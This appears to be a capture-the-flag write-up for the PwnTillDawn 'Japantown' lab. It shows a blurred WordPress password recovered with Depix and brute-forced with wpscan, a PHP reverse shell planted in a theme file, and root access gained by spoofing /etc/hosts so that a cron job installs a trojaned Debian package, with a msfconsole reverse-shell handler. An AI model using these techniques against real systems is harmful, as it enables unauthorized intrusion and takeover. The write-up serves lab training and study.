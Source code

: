 ```yaml
---
layout: post
title: PwnTillDawn - Japantown Write-Up
date: 2024-11-18
classes: wide
description: Depixelating passwords and backdooring debian packages to success!
---
```


# Japantown (10.150.150.21)

![](/assets/img/post/pwntilldawn_japantown/1.png)

## Initial Scanning

First things first, let's run nmap to see what ports we can explore on the target's machine.

```
$ sudo nmap -sV -sC -oN scans/nmap.txt 10.150.150.21
```

![2](/assets/img/post/pwntilldawn_japantown/2.png)

We can see two open ports being SSH and HTTP, so the reconnaissance process will be quick. As SSH is rarely exploitable in CTFs, the web server is our best bet.



## Web Server Exploration

Turns out the web server is a Wordpress blog with one single post and an about me page.

![](/assets/img/post/pwntilldawn_japantown/3.png)

To avoid missing out important information, I often like to verify the page source-code to find hidden links or comments that might be useful and also reading the `robots.txt` page, if it exists, to identify relevant information, which in this case turns out to be very profitable this time.

![](/assets/img/post/pwntilldawn_japantown/5.png)

The post page contains a flag that we need to complete the challenge. The `robots.txt` page also has juicy information.

![](/assets/img/post/pwntilldawn_japantown/4.png)

Not only this page has a flag but it also show us an important file that we'll be using later on, as we, ironically, don't know what it is for, yet.



## Depix 2 Win

Funny enough, the author of this blog, which is called `kim` thinks posting his blurred password is a cool idea, and tell us that there's a tool that can be used to read the password.

![](/assets/img/post/pwntilldawn_japantown/6.png)

The tool is called **Depix** and it's available on [Github](https://github.com/spipm/Depix). The ideia is taking a blurred image and comparing pixels with a search image to find potential characters that match the blurred ones.

![](/assets/img/post/pwntilldawn_japantown/7.png)

Now remember that one file we found on `robots.txt`? Time to use it. When accessed directly, the image looks broken, but it's in fact Base64 encoded, and once decoded, becomes our search image for this challenge.

```
$ curl -L http://10.150.150.21/blog/wp-content/uploads/2020/12/you-know-what-this-is-for.png | base64 -d | tee searchimage.png
```

![](/assets/img/post/pwntilldawn_japantown/8.png)

So, accordingly to the tool's documentation, we're supposed to crop the image until we have only the pixels of the blurred text and run the tool against it. So we crop the image and we're ready to go.

<img src="/assets/img/post/pwntilldawn_japantown/9.png" style="zoom:300%;" />

> :warning: **Important Note:** It took me a really long time to figure this out, but cropping the image using `gthumb` will mess up the output. Use GIMP instead.

```
$ python depix.py -p password.png -s searchimage.png -o output.png
```

After a short while, we'll get the output with the password, that will not be completly readable, but good enough for us to guess the password.

<img src="/assets/img/post/pwntilldawn_japantown/10.png" alt="10" style="zoom:300%;" />

We can cleary see some of the letter, so the password is something like `kimi**hina4`, so I would guess it's `kiminchina4`? Just to be sure, we can use `crunch` together with `wpscan` to try logging in with this username and identifying the missing letters. Also, if you haven't figured out the username, wpscan can also enumerate and tell you the correct user.

```
$ crunch 11 11 -t kimi@@hina4 -o wordlist.txt
$ wpscan --url http://10.150.150.21/ -U 'kim' -P wordlist.txt
```

![](/assets/img/post/pwntilldawn_japantown/11.png)

We now got confirmation that the password is correct, so we can login as `kim`.



## Initial Access

Soon after compromising the author's account, the next flag can be found in the post page, as a draft.

![](/assets/img/post/pwntilldawn_japantown/12.png)

From now, our objective is to get a shell, which is quite easy actually. Since wordpress is built using PHP, we can either modify a plugin or a page. Also, I'll be using `msfvenom` to generate a shell, but you can also use the famous [Penstestmonkey's PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), it works the same.

![](/assets/img/post/pwntilldawn_japantown/13.png)

Next we'll be going to Theme Editor and select the `404.php` page and paste `shell.php` contents inside, since 404 is an easily accessible page. Once we load a non-existent page on the website, we'll get a shell.

> :bulb: **Note:** Remember to start your metasploit or netcat listener otherwise the shell won't connect to your machine.

Once the connection arrives, we can see our current user is `www-data` as expected, what is unexpected tho is the `password_for_www_data` file, which stores a password that we can use to login through SSH. Switching to an SSH connection or not is completely up to you. 

![](/assets/img/post/pwntilldawn_japantown/14.png)

The next flag can also be located easily inside Kim's home directory in `/home/kim`:

![](/assets/img/post/pwntilldawn_japantown/15.png)

Kim's directory also has a `script.sh` that basically does nothing but lure you for a while until you realize it's a dead end. At this point I've decided to use [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to run the privilege escalation checks for me and found some interesting information.



## Not So Secure, eh?

First, by monitoring frequent cron jobs, we can identify that the machine is downloading a debian package and installing it every minute.

![](/assets/img/post/pwntilldawn_japantown/16.png)

Second, we have write permissions on the `/etc/hosts` file, which can be used for DNS Spoofing.

![](/assets/img/post/pwntilldawn_japantown/17.png)

Knowing this, we can attempt to trick the machine into downloading a malicious package instead. So we'll edit the `/etc/hosts` file and add a new line using the following command:

```
$ echo "<IP> de.archive.ubuntu.com" >> /etc/hosts
```

![](/assets/img/post/pwntilldawn_japantown/18.png)

So now, whenever the machine tries to download the package, it will download our malicious package instead. The next step is to serve the package.

> :bulb: **Note:** You'll need to craft your package. Doing so it really easy and quick, but the commands may vary from OS, so here's a tutorial from [OffSec](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/) on how to do so and also a [tool](https://github.com/UndeadSec/Debinject) for Python2.7 to automate the process. Remember to use the same name.

Once the package is ready, all we've gotta do is replicate the URL path, serve the package and wait.

```
$ ls ubuntu/pool/main/o/openssh/ssh_8.2p1-4_all.deb
ubuntu/pool/main/o/openssh/ssh_8.2p1-4_all.deb
$ sudo python -m http.server 80
```

As before, I've used `msfvenom` to create the reverse shell. So it's time to start a listener.

```
$ msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT 443; run -j"
```

![](/assets/img/post/pwntilldawn_japantown/19.png)

With the session opened message, we can access the last flag inside root's home directory.

![](/assets/img/post/pwntilldawn_japantown/20.png)
